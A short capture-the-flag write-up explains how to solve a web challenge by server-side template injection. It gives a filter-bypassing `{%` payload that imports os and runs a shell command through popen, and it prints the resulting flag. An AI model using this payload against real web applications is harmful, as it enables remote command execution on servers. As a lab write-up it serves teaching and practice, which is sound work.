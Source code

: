 # forty-nine
> We have a random fact generator that might have some problems sanitizing the input. It may not be as simple as 7*7.

## About the Challenge
We were given a website, and there’s only 1 form input in the website

![preview](images/preview.png)

## How to Solve?
And then I tried to input `${{7*7}}` and the output was `Sorry, I do not understand Attack detected!.`. And after analyzing a little bit, sadly we can’t input `{{`

Well, even though we can’t input `{{`, we still can bypass it using `{%`.

![meme](images/meme.png)

And to obtain the flag, we need to execute an OS command by importing the `os` module and then calling the `popen` function and then executing the `cat flag.txt` command.

```
{% print(x.__init__.__globals__.__builtins__.__import__("os")["popen"]("cat flag.txt").read()) %}
```

![flag](images/flag.png)

```
CTF{f1cb7344129bcc51480407f1f381cb994c155194fdde34b827cc48c9f4d3040e}
```